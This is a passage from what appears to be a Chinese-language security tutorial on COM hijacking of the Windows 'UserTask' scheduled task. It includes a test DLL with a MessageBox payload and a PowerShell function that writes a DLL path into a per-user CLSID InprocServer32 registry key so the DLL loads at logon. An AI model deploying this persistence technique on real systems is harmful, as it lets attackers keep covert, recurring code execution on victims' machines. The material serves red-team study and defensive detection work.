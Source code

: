 如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-26/3-3.png)



**3、**编译

使用vc6.0新建dll工程，添加以上代码并加上payload：

MessageBox(NULL,"testexport","testexport",MB_OK);

编译并保存为c:\test\testexport.dll


**4、**修改注册表，劫持UserTask

powershell代码如下：

```
function Invoke-ScheduledTaskComHandlerUserTask
{
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
    Param (
        [Parameter(Mandatory = $True)]
        [ValidateNotNullOrEmpty()]
        [String]
        $Command,

        [Switch]
        $Force
    )
    $ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
    if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
        New-Item $ScheduledTaskCommandPath -Force |
            New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
    }else{
        Write-Verbose "Key already exists, consider using -Force"
        exit
    }

    if (Test-Path $ScheduledTaskCommandPath) {
        Write-Verbose "Created registry entries to hijack the UserTask"
    }else{
        Write-Warning "Failed to create registry key, exiting"
        exit
    }  
}
Invoke-ScheduledTaskComHandlerUserTask -Command "c:\test\testexport.dll" -Verbose
```

**5、**注销用户，重启测试

弹框成功
